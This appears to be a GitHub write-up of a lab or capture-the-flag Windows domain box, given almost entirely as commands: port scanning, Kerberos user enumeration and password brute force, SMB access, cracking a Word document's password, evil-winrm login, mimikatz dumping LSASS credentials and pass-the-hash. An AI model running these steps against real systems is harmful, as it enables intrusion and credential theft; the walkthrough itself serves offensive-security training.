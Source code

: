 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)
```
smbmap -u "ekaterina" -p "ekaterina" -d codeby.cdb -H 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f120e4b2-c956-4931-bf30-571290b37ac1)
```
smbclient //192.168.2.6/Ekaterina -U ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c3a1463-1afb-4b0b-a082-19dedf55245a)
```
office2john confidental.docx > hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2dd71b05-1859-4077-80c0-f9bbd6130c9e)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bdd4cc23-4bf3-4758-8517-39ff59e2c009)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca25d04-9f63-41fc-81e9-67b453f73b1f)

```
evil-winrm -i 192.168.2.6 -u a.gusev -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21b7a047-2c2a-4acf-8ce9-40963bd38006)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9be9c7c3-539a-4892-84bf-68fa22459e4f)
```
./winPEASx64.exe
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ff5fb9d-e967-4246-ad95-60f10c375f16)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/58cf134e-77aa-4dae-a0bb-d023e6aa3202)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e5a12c41-4ea3-4d8f-b270-c8411f9670c9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2847bb9f-f903-470a-9b16-86c2051ed083)

Спасибо @Alex_Gubich

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#mini-dump

https://github.com/ParrotSec/mimikatz

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
.\mimikatz.exe "sekurlsa::minidump C:\Users\a.gusev\AppData\Local\Microsoft\Windows\lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e94d1e30-12f2-4784-93ad-eac13c0e0a39)

```
evil-winrm -i 192.168.2.6 -u exited3n -H NTLM_HASH
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7db4e0d-d59d-4767-a31e-fb72eb208fe1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6f3d0cfc-9f51-44a0-a619-d237e9ece127)

